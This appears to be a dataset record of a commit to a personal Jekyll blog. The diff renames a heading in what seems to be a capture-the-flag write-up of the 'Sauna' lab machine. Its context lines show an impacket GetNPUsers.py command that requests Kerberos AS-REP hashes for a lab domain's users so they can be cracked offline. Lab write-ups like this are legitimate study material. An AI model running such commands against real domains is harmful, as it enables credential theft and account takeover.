

Before and after one commit to alfredoFerreiraAssis/alfredoFerreiraAssis.github.io, a Jekyll site: the page built from _posts/sauna/2020-07-28-sauna.md, in a window 1280 px wide. Shown: the part 3289-3589 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-07-28-sauna.md

```diff
--- a/_posts/sauna/2020-07-28-sauna.md
+++ b/_posts/sauna/2020-07-28-sauna.md
@@ -86,8 +86,7 @@ My wordlist have a lot more, but there's no need of all...
 
 Now I can use impacket's GetNPUsers.py
 
-### Exploting
-
+### Exploit
 ./GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -request -no-pass -dc-ip 10.10.10.175 -format john  --outputfile hash
 
 ![fsmithHash](/assets/img/sauna/sauna3.png)
```
